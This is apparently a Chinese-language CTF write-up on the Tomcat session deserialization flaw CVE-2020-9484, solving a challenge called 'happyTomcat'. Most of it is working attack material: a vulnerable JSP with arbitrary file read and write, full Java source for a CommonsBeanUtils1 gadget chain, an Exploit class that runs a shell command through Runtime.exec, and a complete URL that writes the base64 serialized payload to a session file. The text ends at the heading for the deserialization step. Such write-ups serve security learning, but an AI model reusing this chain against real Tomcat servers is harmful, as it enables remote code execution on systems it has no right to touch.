


# Tomcat-Session反序列化学习

## 简介

CVE-2020-9484。

要求：

1. tomcat必须启用session持久化功能FileStore 
2. tomcat/lib或者WEB-INF/lib目录下的依赖存在可用的gadget 
3. 在服务器上存在已知路径文件内容可控

## 漏洞分析

漏洞比较简单就直接提一下，具体的代码可以自己分析。

当开启了session持久化功能FileStore的时候：

```xml


<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<!-- The contents of this file will be loaded for each web application -->
<Context>

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
    <Manager className="org.apache.catalina.session.PersistentManager"
             debug="0"
             saveOnRestart="false"
             maxActiveSession="-1"
             minIdleSwap="-1"
             maxIdleSwap="-1"
             maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="./session" />
    </Manager>

    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="" />
    -->
</Context>


```

会把`JSESSIONID`的名称作为SESSION文件名的一部分进行读取之后反序列化（可以联想PHP的SESSION反序列化）。

比如`JSESSIONID=../../../../../../../../feng`，那么就会读取`/xxxxxx/../../../../../../../../feng.session`的内容并反序列化。如果目标系统中存在可用的Gadget，就可以反序列化rce。（比如`tomcat/lib`或者`WEB-INF/lib`）下面。


## 例题：卷王杯-happyTomcat

进入环境有个文件读取，读一下jsp文件`?path=webapps/ROOT/index.jsp`：

```jsp


<%--
  Created by IntelliJ IDEA.
  User: y4tacker
  Date: 2022/2/4
  Time: 8:52 PM
  To change this template use File | Settings | File Templates.
--%>
<%@ page import="java.io.File" %>
<%@ page import="java.nio.file.Files" %>
<%@ page import="java.nio.file.Paths" %>
<%@ page import="java.util.Base64" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    String path = request.getParameter("path");
    String write = request.getParameter("write");
    String content = request.getParameter("content");

    if (path == null && write == null && content ==null){
        out.println("或许可能是?path=index.jsp，但是仔细看报错呢");

    }


    if (path != null){
        File file = new File("/usr/local/tomcat/"+path);
        if (file.getAbsolutePath().startsWith("/usr/local/tomcat") && !path.contains("..")){
            if (file.isDirectory()){
                File[] files = file.listFiles();
                for (File file1 : files) {
                    out.println(file1.getName());
                }
            }else {
                byte[] bytes = Files.readAllBytes(Paths.get(file.getAbsolutePath()));
                out.println(new String(bytes));


            }
        }else {
            out.println("Hacker???");
        }
    }

    if (write !=null && content!= null){
        if(!write.contains("jsp") && !write.contains("xml")){
            Files.write(Paths.get(write), Base64.getDecoder().decode(content));
        }else {
            out.println("Ha???");
        }

    }
%>


```

存在任意写，但是不能写jsp和xml。

读配置`?path=conf/context.xml`，发现开了`FileStore `：

```xml
    <Manager className="org.apache.catalina.session.PersistentManager"
             debug="0"
             saveOnRestart="false"
             maxActiveSession="-1"
             minIdleSwap="-1"
             maxIdleSwap="-1"
             maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="./session" />
    </Manager>
```

读lib，发现存在cc和cb的依赖：

```
?path=webapps/ROOT/WEB-INF/lib/

commons-logging-1.1.1.jar commons-beanutils-1.9.2.jar commons-collections-3.2.1.jar
```

所以直接反序列化打就OK。

cb生成payload：

```java
package com.summer.cb1;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.util.Base64;
import java.util.Collections;
import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    public static void main(String[] args) throws Exception{
        //new CommonsBeanUtils1().getShiroPayload();
        cb1();
    }
    public static void cb1() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
        //SerializeUtil.unserialize(bytes);
    }
    public byte[] getShiroPayload() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        //BeanComparator beanComparator = new BeanComparator("outputProperties", Collections.reverseOrder());

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);

        //System.out.println(new String(Base64.getEncoder().encode(bytes)));
        //SerializeUtil.unserialize(bytes);
        return bytes;
    }

}

```

```java

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Exploit extends AbstractTranslet {
    static {
        try {
            String[] cmd = {"/bin/sh","-c","cat /flag  > /usr/local/tomcat/webapps/ROOT/feng.txt"};
            //String[] cmd = {"calc"};
            Runtime.getRuntime().exec(cmd);
        }
        catch (Exception e){

        }

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

写进去：

```
http://07fb3740-7539-4c79-b1de-2b67feec6cd9.challenge.ctf.show/?write=/tmp/feng.session&content=rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgA%2Fb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbXBhcmF0b3JzLkNvbXBhcmFibGVDb21wYXJhdG9y%2B%2FSZJbhusTcCAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3QAEltMamF2YS9sYW5nL0NsYXNzO0wABV9uYW1lcQB%2BAARMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD%2F%2F%2F%2F%2FdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAABdXIAAltCrPMX%2BAYIVOACAAB4cAAABijK%2Frq%2BAAAANAA3CgAKACYHACcIACgIACkIACoKACsALAoAKwAtBwAuBwAvBwAwAQAGPGluaXQ%2BAQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAlMRXhwbG9pdDsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcAMQEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAIPGNsaW5pdD4BAANjbWQBABNbTGphdmEvbGFuZy9TdHJpbmc7AQANU3RhY2tNYXBUYWJsZQcALgEAClNvdXJjZUZpbGUBAAxFeHBsb2l0LmphdmEMAAsADAEAEGphdmEvbGFuZy9TdHJpbmcBAAcvYmluL3NoAQACLWMBADRjYXQgL2ZsYWcgID4gL3Vzci9sb2NhbC90b21jYXQvd2ViYXBwcy9ST09UL2ZlbmcudHh0BwAyDAAzADQMADUANgEAE2phdmEvbGFuZy9FeGNlcHRpb24BAAdFeHBsb2l0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEACQAKAAAAAAAEAAEACwAMAAEADQAAAC8AAQABAAAABSq3AAGxAAAAAgAOAAAABgABAAAACAAPAAAADAABAAAABQAQABEAAAABABIAEwACAA0AAAA%2FAAAAAwAAAAGxAAAAAgAOAAAABgABAAAAGAAPAAAAIAADAAAAAQAQABEAAAAAAAEAFAAVAAEAAAABABYAFwACABgAAAAEAAEAGQABABIAGgACAA0AAABJAAAABAAAAAGxAAAAAgAOAAAABgABAAAAHQAPAAAAKgAEAAAAAQAQABEAAAAAAAEAFAAVAAEAAAABABsAHAACAAAAAQAdAB4AAwAYAAAABAABABkACAAfAAwAAQANAAAAcAAEAAEAAAAhBr0AAlkDEgNTWQQSBFNZBRIFU0u4AAYqtgAHV6cABEuxAAEAAAAcAB8ACAADAA4AAAAWAAUAAAALABQADQAcABEAHwAPACAAEwAPAAAADAABABQACAAgACEAAAAiAAAABwACXwcAIwAAAQAkAAAAAgAlcHQABGZlbmdwdwEAeHEAfgANeA%3D%3D
```

反序列化：



